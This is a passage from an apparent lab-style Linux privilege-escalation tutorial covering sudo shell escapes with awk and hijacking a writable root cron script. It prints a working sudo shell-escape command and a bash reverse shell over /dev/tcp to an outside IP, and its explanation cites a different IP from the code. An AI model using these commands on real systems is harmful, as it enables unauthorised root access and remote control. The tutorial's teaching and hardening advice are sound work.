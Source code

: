 ![](https://miro.medium.com/v2/resize:fit:602/1*D1pDJ2gF_R2f4q0bOall0A.png)

**awk** ([https://gtfobins.github.io/gtfobins/awk/](https://gtfobins.github.io/gtfobins/awk/))

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

![](https://miro.medium.com/v2/resize:fit:602/1*uLLRTB8tkn8eXnejhnPeYg.png)

**Countermeasures/Recommendations:**

- Do not give sudo rights to any program which lets you escape to the shell.
- Never give SUDO rights to vi, more, less, nmap, perl, ruby, python, gdb and others.

## **Linux Privilege Escalation by Exploiting Cronjobs**

**What is a cron job?**

Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server. They’re most commonly used for sysadmin jobs such as backups or cleaning /tmp/ directories and so on. The word Cron comes from crontab and it is present inside /etc directory.

![](https://miro.medium.com/v2/resize:fit:602/1*bmx6VJEeJkdTQdpBGHz7dA.png)

**For example:** Inside crontab, we can add the following entry to print apache error logs automatically in every 1 hour.

```
1 0 * * * printf "" > /var/log/apache/error_log
```

To list out all the cronjobs in the machine by executing the command ‘`cat /etc/crontab`’.

![](https://miro.medium.com/v2/resize:fit:602/1*4ILd4DjuHS4bPoZUlsmNkg.png)

From the above command, we notice the crontab is bash script every minute now let’s exploit.

Firstly will locate the file and check the permissions of `overwrite.sh` file.

![](https://miro.medium.com/v2/resize:fit:602/1*zzQaNXlzBUqml6w_HOVCnQ.png)

Since we have a write permissions of the file. so now, we can exploit this by writing our code in `overwrite.sh` to connect to our local machine, sp**awn a shell and when it gets executed by the root user, we’ll get a shell. So our code will be**

```bash
#!/bin/bash  
 bash -i >& /dev/tcp/10.9.0.167/4444 0>&1
```

**Explanation:**

- 1st line: shebang to denote interpreter, this case — bash
- 2nd line: bash -i to open an interactive shell, >& /dev/tcp/10.2.12.26/4444 to redirect all streams to our local machine and 0>&1 to redirect **stdin** and **stdout** to **stdout**

so, after editing the code in overwrite.sh, we listen on our local machine waiting for a shell.
